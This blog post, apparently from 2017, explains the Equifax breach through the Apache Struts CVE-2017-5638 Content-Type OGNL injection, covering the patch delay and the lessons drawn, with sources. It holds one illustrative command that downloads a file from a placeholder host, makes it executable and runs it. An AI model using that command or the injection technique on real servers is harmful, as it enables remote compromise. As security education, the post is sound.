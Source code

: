 ```yaml
---
layout: post
comments: true
title:  "The Equifax Breach"
excerpt: "A Comprehensive Investigation of the Equifax Security Incident."
date:   2017-11-07 11:00:00
mathjax: false
---
```


- The Breach

On Sept 7, Equifax, one of the three biggest credit monitoring companies, announced a major data breach. Hackers broke into the company’s database and stole private information from 143 million people, nearly half of the adult population in America (Thomas, 2017).
This is not the first major data breach in America. In 2013, information from one billion accounts was compromised during a cyber-attack on Yahoo. In 2014, at Yahoo again, another 500 million passwords and account information were exposed (Yahoo breaches n.d.).
However, the Equifax breach is one of the worst of its kind. Because the information exposed is highly sensitive, including names, birthdays, addresses, social security numbers and even driver’s license numbers (Thomas, 2017). Fraudsters dream of exactly this type of information. They will be able to apply for credit cards and open bank accounts in another person’s name. In the worst scenario, they can print fake IDs and commit crimes using other people’s identities. Many customers became victims without having heard of Equifax. Yet Equifax holds a full set of credit information about them and maintains this information so poorly.

The specific vulnerability of this breach lay in Apache Struts, a widely used framework for building web applications. Equifax uses Apache Struts to build its website server. Early in 2017, Apache Struts was found vulnerable to remote command execution (RCE). The flaw was labeled CVE 2017-5638 and soon patched on March 06 (Thomas, 2017). A simple software update will keep websites away from this kind of attack.

Surprisingly, as a company carrying so much sensitive information, Equifax ignored the important patch. They said that this breach on their website began in mid-May, two months later after the patch was available (Goodin, 2017). Actually, since the publication of the patch, the flaw has been widely discussed and analyzed. Demonstration exploits are available on Github. Even nonexperts are able to download example code and perform RCE attack on websites using unpatched Apache Struts. Unfortunately, Equifax is one such site. It was like a fat rabbit striding in a dangerous woods that finally caught the attention of a hungry predator.

- The Attack Scenario

When a client sends an HTTP request to a server running Apache Struts, a content-type specification is passed along with this request. If the content-type is not valid, an exception will be raised. Then a function named “LocalizedTextUtil.findText” will be called. It will use the invalid content-type to build error message for clients. During the process, the function will evaluate the supplied message. Anything within ${...} in this message will be evaluated as an Object Graph Navigation Library (OGNL) expression. If the OGNL expression is a function call, this expression will be executed (Sahu, 2017).

If a content-type message is deliberately made up by an attacker, evaluation of this message as OGNL expression will enable the attacker to execute any commands on servers. To make matters worse, attackers can redirect outputs of executions to the feedback to them. In this way, they can see results of executions and do further damage, for example, locating and transferring critical data (Sahu, 2017). A typical RCE attack is to download and run malicious files on host machines. (As illustrated by the code follows.)

#cmds=({'wget –c http://www.xxx.com/fileX; chmod 777 fileX;./fileX;'})

The flaw was patched by disabling the use of “LocalizedTextUtil.findText” function. Although it was patched on March 6, many websites didn’t get updates in time. Shortly after the update was available, the number of attacks exploiting this bug grew dramatically (Goodin, 2017). It seemed that many attackers were not aware of the bug until it was officially announced. And they reacted to it more quickly than programmers maintaining those vulnerable websites, if there were any maintainer at all.

<div class="imgcap">
<img src="/assets/attack_timeline.png">
<div class="thecap">CVE-2017-5638 Exploitations Attempts (Goodin, 2017)</div>
</div>


- Security Flaw Summary

During this incident, three things are noticeable. The first is the execution of content-type message. The content-type messages are essentially strings from users. They are not expected to be and should never be executed. Second, the OGNL expressions make it very convenient to manipulate Java objects. Meanwhile, they bring a number of vulnerabilities to the Struts framework (Munoz, 2014), the building block of numerous websites around the world. At last, the breach would not have happened without the failure to patch a two-month-old flaw. It is hard to imagine that such a company as Equifax is so ignorant of security.

- Bibliography

[1] Goodin, D. (2017, Sept 13). Failure to patch two-month-old bug led to massive Equifax breach. Ars Technica. Retrieved from https://arstechnica.com

[2] Goodin, D. (2017, March 14). In-the-wild exploits ramp up against high-impact sites using Apache Struts. Ars Technica. Retrieved from https://arstechnica.com

[3] Munoz, A. (2014, Jan 14). Struts 2: OGNL Expression Injections. Micro Focus. Retrieved from https://community.saas.hpe.com

[4] Thomas, Fox. (2017, Sept 14). How Hackers Broke Equifax: Exploiting a Patchable Vulnerability Forbes. Retrieved from https://www.forbes.com

[5] Sahu, S. (2017, March 3). CVE-2017-5638: Apache Struts 2 Vulnerability Leads to Remote Code Execution. Trend Micro. Retrieved from http://blog.trendmicro.com/

[6] Yahoo breaches. (n.d.). Wikipedia. Retrieved September 26, 2017, from https://en.wikipedia.org/wiki
/Yahoo!_data_breaches
